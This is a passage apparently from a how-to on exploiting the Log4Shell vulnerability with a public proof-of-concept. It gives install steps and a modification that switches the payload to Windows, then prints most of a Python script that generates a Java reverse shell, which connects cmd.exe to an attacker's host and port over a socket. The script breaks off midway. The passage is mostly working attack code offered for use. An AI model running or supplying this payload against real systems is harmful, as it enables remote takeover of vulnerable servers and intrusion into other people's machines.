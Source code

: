 ```bash
https://github.com/kozmer/log4j-shell-poc
```

Next install all requirements with pip

```bash
pip install -r requirements.txt
```

Next modify the exploit code, on line 26 where its says **String cmd="/bin/sh";** change it to **String cmd="cmd.exe";**

```python
#!/usr/bin/env python3

import argparse
from colorama import Fore, init
import subprocess
import threading
from pathlib import Path
import os
from http.server import HTTPServer, SimpleHTTPRequestHandler

CUR_FOLDER = Path(__file__).parent.resolve()


def generate_payload(userip: str, lport: int) -> None:
    program = """
import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;
import java.net.Socket;

public class Exploit {

    public Exploit() throws Exception {
        String host="%s";
        int port=%d;
        String cmd="cmd.exe";
        Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
        Socket s=new Socket(host,port);
        InputStream pi=p.getInputStream(),
            pe=p.getErrorStream(),
            si=s.getInputStream();
        OutputStream po=p.getOutputStream(),so=s.getOutputStream();
        while(!s.isClosed()) {
            while(pi.available()>0)
                so.write(pi.read());
            while(pe.available()>0)
                so.write(pe.read());
            while(si.available()>0)
                po.write(si.read());
            so.flush();
            po.flush();
            Thread.sleep(50);
            try {
                p.exitValue();
                break;
            }
            catch (Exception e){
            }
        };
        p.destroy();
        s.close();
    }
```